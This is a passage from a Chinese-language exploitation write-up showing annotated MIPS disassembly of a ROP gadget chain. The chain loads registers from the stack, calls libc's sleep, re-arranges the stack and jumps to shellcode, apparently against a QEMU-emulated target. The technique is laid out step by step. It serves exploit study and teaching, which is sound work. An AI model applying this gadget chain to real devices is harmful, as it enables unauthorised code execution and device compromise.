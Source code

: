 ![](https://cdn.nlark.com/yuque/0/2022/png/574026/1660888008974-7c689eda-6fe2-468a-99b8-93403883b0fc.png)

现在我们向将payload中插入sleep函数：

![qemu的libc](https://cdn.nlark.com/yuque/0/2022/png/574026/1660888453268-fe4b4289-d1cf-44d4-b169-c3e6e2a3c6c4.png)重新尝试寻找gadgets并重新布置栈，我们有：

```bash
.text:000A0730                               loc_A0730:                               # CODE XREF: sub_A0658+78↑j
.text:000A0730 34 00 BF 8F                   lw      $ra, 0x24+var_s10($sp)						# 52【$ra == &loc_13A354】
.text:000A0734 30 00 B3 8F                   lw      $s3, 0x24+var_sC($sp)						# 48【$s3 == &loc_92838】
.text:000A0738 2C 00 B2 8F                   lw      $s2, 0x24+var_s8($sp)						# 44【$s2 == "TruE"】
.text:000A073C 28 00 B1 8F                   lw      $s1, 0x24+var_s4($sp)						# 40【$s1 == "TruE"】
.text:000A0740 24 00 B0 8F                   lw      $s0, 0x24+var_s0($sp)						# 36【$s0 == &sleep函数真实地址】
.text:000A0744 08 00 E0 03                   jr      $ra
.text:000A0748 38 00 BD 27                   addiu   $sp, 0x38												# 56
--------------------------------------------------------------------------------------------------------------------------------
loc_13A354:
.text:0013A354 01 00 04 24                   li      $a0, 1														# 【$a0 == 1】
.text:0013A358 21 C8 60 02                   move    $t9, $s3													# 【$t9 == loc_92838】
.text:0013A35C 09 F8 20 03                   jalr    $t9 ; socket											# 【调用loc_92838】
.text:0013A360 21 30 00 00                   move    $a2, $zero
--------------------------------------------------------------------------------------------------------------------------------
loc_92838:
.text:00092838 21 C8 00 02                   move    $t9, $s0													#	【$s0 == &sleep函数真实地址】
.text:0009283C 09 F8 20 03                   jalr    $t9 ; uselocale									#	【调用sleep】
.text:00092840 21 90 40 00                   move    $s2, $v0
.text:00092840																																				# 这里可以重新布置栈
.text:00092844 24 00 BF 8F                   lw      $ra, 0x18+var_sC($sp)						# 36				
.text:00092848 21 10 40 02                   move    $v0, $s2
.text:0009284C 20 00 B2 8F                   lw      $s2, 0x18+var_s8($sp)						# 32
.text:00092850 1C 00 B1 8F                   lw      $s1, 0x18+var_s4($sp)						# 28
.text:00092854 18 00 B0 8F                   lw      $s0, 0x18+var_s0($sp)						# 24
.text:00092858 08 00 E0 03                   jr      $ra
.text:0009285C 28 00 BD 27                   addiu   $sp, 0x28												# 40
--------------------------------------------------------------------------------------------------------------------------------
loc_23828:
.text:00023828                               loc_23828:                               # CODE XREF: sub_23790+5C↑j
.text:00023828 21 C8 20 02                   move    $t9, $s1
.text:0002382C 09 F8 20 03                   jalr    $t9 
.text:00023830 1C 00 A5 27                   addiu   $a1, $sp, 0x24+var_8							# 0x1C(28)【$a1 == &shellcode】
```